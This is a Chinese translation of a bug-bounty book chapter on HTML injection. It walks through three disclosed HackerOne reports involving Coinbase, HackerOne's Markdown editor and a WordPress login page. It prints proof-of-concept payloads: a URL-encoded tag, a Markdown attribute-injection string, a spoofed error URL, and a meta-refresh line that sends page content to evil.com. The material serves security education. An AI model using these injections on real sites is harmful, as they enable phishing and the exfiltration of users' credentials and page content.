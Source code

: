 ## **五、HTML 注入**

>作者：Peter Yaworski
>
>譯者：飛龍
>
>協議：CC BY-NC-SA 4.0


## **描述**
超文本標記語言（HTML）注入有時也被稱為虛擬污染。這實際上是一個由站點造成的攻擊，該站點允許惡意用戶向其 Web 頁面注入 
<br>
HTML，並且沒有合理處理用戶輸入。換句話說，HTML 注入漏洞是由接收 HTML 
<br>
引起的，通常通過一些之後會呈現在頁面的表單輸入。這個漏洞是獨立的，不同於注入 Javascript，VBscript 等。
<p>
由於 HTML 是用於定義網頁結構的語言，如果攻擊者可以注入 HTML，它們基本上可以改變瀏覽器呈現的內容。有時，這可能會導致頁面外觀的完全改變，
<br>

或在其他情況下，創建表單來欺騙用戶，例如，如果你可以注入HTML，你也許能夠將`<form> `
<br>
標籤添加到頁面，要求用戶重新輸入他們的用戶名和密碼。然而，當提交此表單時，它實際上將信息發送給攻擊者。

---


### **1. Coinbase 評論**
```
難度：低
URL： coinbase.com/apps
報告鏈接： https://hackerone.com/reports/104543
報告日期：2015.12.10
獎金：$200
```
描述：
對於此漏洞，報告者識別出 Coinbase 在呈現文本時，實際上在解碼 URI 的編碼值。對於那
<br>
些不熟悉它的人（我在寫這篇文章的時候），URI 中的字符是保留的或未保留的。根據維基
<br>
百科，保留字是有時有特殊意義的字符，如 `/` 和 `&` 。未保留的字符是沒有任何特殊意義的
<br>
字符，通常只是字母。

因此，當字符被 URI 編碼時，它將按照 ASCII 轉換為其字節值，並以百分號（`%`）開頭。所以，`/`變成`%2F`，`&`成為`%26`。另外，ASCII 
<br>
是一種在互聯網上最常見的編碼，直到 UTF-8 出現，它是另一種編碼類型。現在，回到我們的例子，如果攻擊者輸入 HTML：

```html
<h1> This is a test</h1>
```

Coinbase 實際上會將其渲染為純文本，就像你上面看到的那樣。但是，如果用戶提交了 URL 編碼字符，像這樣：

```
%3C%68%31%3E%54%68%69%73%20%69%73%20%61%20%74%65%73%74%3C%2F%68%31%3E
```
Coinbase 實際上會解碼該字符串，並渲染相應的字符，像這樣：

```
This is a test
```

使用它，報告者演示瞭如何提交帶有用戶名和密碼字段的 HTML 表單，Coinbase 會渲染他。如果這個用戶是惡意的，Coinbase 就會渲染一個表單，它將值提交給惡意網站來捕獲憑據（假設人們填充並提交了表單）。


>重要結論
>
>當你測試一個站點時，要檢查它如何處理不同類型的輸入，包括純文本和編碼文本。特別要注意一些接受 URI 編碼值，例如`%2f`>，並渲染其解碼值的站點，這裡是`/`。雖然我們不知道這個例子中，黑客在想什麼，它們可能嘗試了 URI 編碼限製字符，並註意到 Coinbase >會解碼它們。之後他們更一步 URL 編碼了所有字符。

[http://quick-encoder.com/url](http://quick-encoder.com/url) 是一個不錯的 URL 編碼器。你在使用時會注意到，它告訴你非限製字符不需要編碼，並且提供了編碼 URL 安全字符的選項。這就是獲取用於 COinbase 的相同編碼字符串的方式

---

### **2. HackerOne 無意識 HTML 包含**
```
難度：中
URL：hackerone.com
報告鏈接：https://hackerone.com/reports/112935
報告日期：2016.1.26
獎金：$500
描述：
```

在讀完 Yahoo XSS 的描述（第七章示例四），我對文本編輯器中的 HTML 渲染測試產生了興
<br>
趣。這包含玩轉 HackerOne 的 Markdown 編輯器，在圖像標籤中輸入一些類似 `ismap=
"yyy=xxx"` 和 `"'test"` 的東西。這樣做的時候，我注意到，編輯器會在雙引號裡麵包含一個單
引號 - 這叫做懸置引號。
<p>
那個時候，我並沒有真正理解它的含義。我知道如果你在某個地方注入另一個單引號，兩個
<br>
引號就會被瀏覽器一起解析，瀏覽器會將它們之間的內容視為一個 HTML 元素，例如：
<br>

```html
<h1>This is a test</h1><p class="some class">some content</p>'
```
使用這個例子，如果你打算注入一個 Meta 標籤：
```html
<meta http-equiv="refresh" content='0; url=https://evil.com/log.php?text=
```
瀏覽器會提交兩個引號之間的任何東西。<br />
現在，結果是，這個已經在 HackerOne 的 [#110578](https://hackerone.com/reports/110578)報告中由 [intidc](https://hackerone.com/intidc) 公開。<p>

看到它公開之後，我有一點失望。<br />
根據 HackerOne，它們依賴於 Redcarpet（一個用於 Markdown 處理的 Ruby 庫）的實現，<br />
來轉義任何 Markdown 輸入的 HTML 輸出，隨後它會通過 React 組件<br />
的 dangerouslySetInnerHTML 直接傳遞給 HTML DOM（也就是頁面）。此外，React 是一個<br />
JavaScript 庫，可用於動態更新 Web 頁面的內容，而不需要重新加載頁面。<p>
DOM 指代用於有效 HTML 以及 格式良好的 XML 的應用程序接口。<br />
本質上，根據維基百科，DOM 是跨平台並且語言無關的約定，用於展示 HTML、XHTML 和 XMl 中的對象，並與其交互。<p>
在 HackerOne 的實現中，它們並沒有合理轉義 HTML 輸出，這會導致潛在的漏洞。<br />
現在，也就是說，查看披露，我覺得我應該測試一下心得代碼。我返回並測試了這個：
```html
[test](http://www.torontowebsitedeveloper.com "test ismap="alert xss" yyy="test"\ ")
```
它會變成
```html
<a title="'test" ismap="alert xss" yyy="test" ' ref="http://www.toronotwebsi\ tede
veloper.com">test</a>
```
你可以看到，我能夠將一堆 HTML 注入到 `<a>` 標籤中。<br />
所以，HackerOne 回滾了該修復版本，並重新開始轉義單引號了。
```
重要結論
僅僅是代碼被更新了，並不意味著一些東西修復了，而是還要測試一下。當部署了變更
之後，同時意味著新的代碼也可能存在漏洞。
此外，如果你覺得有什麼不對，一定要深入挖掘。我知道一開始的尾後引號可能是個問
題，但是我不知道如何利用它，所以我停止了。我本應該繼續的。我實際上通過閱讀
XSS Jigsaw 的 了解了 Meta 刷新利用。
```


---


### **3. WithinSecurity 內容偽造**
```
難度：低

URL：withinsecurity.com/wp-login.php
報告鏈接：https://hackerone.com/reports/111094
報告日期：2015.1.16
獎金：$250
```
描述：
<p>
雖然內容偽造實際上和 HTML 注入是不同的漏洞，我也將其包含在這裡，因為它們擁有相似的本質，攻擊者讓一個站點渲染它們選擇的內容。
<p>
WithinSecurity 構建在 WordPress 平台之上，它包含登錄頁面withinsecurity.com/wp-login.php（這個站點已經合併到了 HackerOne 的核心平台中）。攻擊者註意到了在登錄過程中，如果發生了錯誤，WithinSecurity 就會渲染access_denied，同時對應 URL 中的error參數：

<pre>
https://withinsecurity.com/wp-login.php?error=access_denied
</pre>

注意到了這個，攻擊者嘗試修改`error`參數，並發現無論參數傳遞了什麼值，都會被站點渲染為錯誤信息的一部分，並展示給用戶。這裡是所用的示例：


<pre>https://withinsecurity.com/wp-login.php?error=Your%20account%20has%20%hacked</pre>

![5](https://raw.githubusercontent.com/dyeat/Document_read/master/Web_Hacking_101/image/5-1.jpg)

WithinSecurity 內容偽造

這裡的關鍵是注意到 URL 中的參數在頁面中渲染。雖然他們沒有解釋，我可以假設攻擊者註意到了`access_denied`展示在了頁面上，但是也包含在 URL 中。這裡他們也報告了，漏洞也可以由一個簡單的測試，修改`access_denied`參數來找到。

>重要結論
>
>時刻關注傳遞並且渲染為站點內容的 URL 參數。他們可能就是攻擊者的機會，用於欺騙受害者來執行一些惡意動作。


## 總結
HTML 注入向站點和開發者展示了漏洞，因為他可以用於誤導用戶，並且欺騙它們來提交一些敏感信息，或者瀏覽惡意網站。就像釣魚攻擊那樣。
<p>
發現這些漏洞並不是通過僅僅提交 HTML，而是弄清楚站點如何渲染你的輸入文本，像是 URI 編碼的字符。而且，雖然內容偽造並不和 HTML 注入完全一樣，它也是類似的，因為它涉及讓一些輸入在 HTML 頁面中反映給受害者。攻擊者應該仔細尋找機會，來操縱 URL 參數，並讓它們在站點上渲染。
